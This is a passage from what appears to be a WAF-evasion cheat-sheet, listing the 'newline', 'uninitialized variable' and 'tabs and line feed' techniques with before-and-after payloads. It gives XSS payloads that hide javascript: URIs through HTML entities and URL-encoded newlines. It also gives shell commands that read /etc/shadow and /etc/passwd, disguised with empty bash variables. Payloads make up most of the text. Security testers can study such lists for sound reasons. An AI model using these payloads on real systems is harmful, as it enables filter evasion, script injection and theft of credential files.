 **Skipped technique:**

```bash
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe
```

### 11. Newline technique

Many regex-filtering WAFs effectively block many attempts. The newline (CR and LF) technique can break the firewall's regular expression and skip things.

**Basic request:**

```bash
<iframe src=javascript:confirm(hacker)">
```

**Obfuscate payload:**

```bash
<iframe src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(hacker)">
```

### 12. Uninitialized variable technique

Incorrect regex-based filters can be bypassed with uninitialized bash variables. Such value equals null and acts like empty strings. Bash and Perl allow this type of interpretation.

First-level obfuscation: normal

**Basic request:**

> /bin/cat /etc/shadow

**Obfuscate payload:**

> /bin/cat$u /etc/shadow$u

Second-level obfuscation: position-based

**Basic request:**

> /bin/cat /etc/shadow

**Obfuscate payload:**

> $u/bin$u/cat$u $u/etc$u/shadow$u

Third-level obfuscation: random characters

**Basic request:**

> /bin/cat /etc/passwd

**Obfuscate payload:**

> $aaaaaa/bin$bbbbbb/cat$ccccccc $dddddd/etc$eeeeeee/passwd$fffffff

### 13. Tabs and line feed technique

Tabs often help evade firewalls, especially regex-based ones. Tabs can help break the WAF regex when the regex expects white spaces and not tabs.
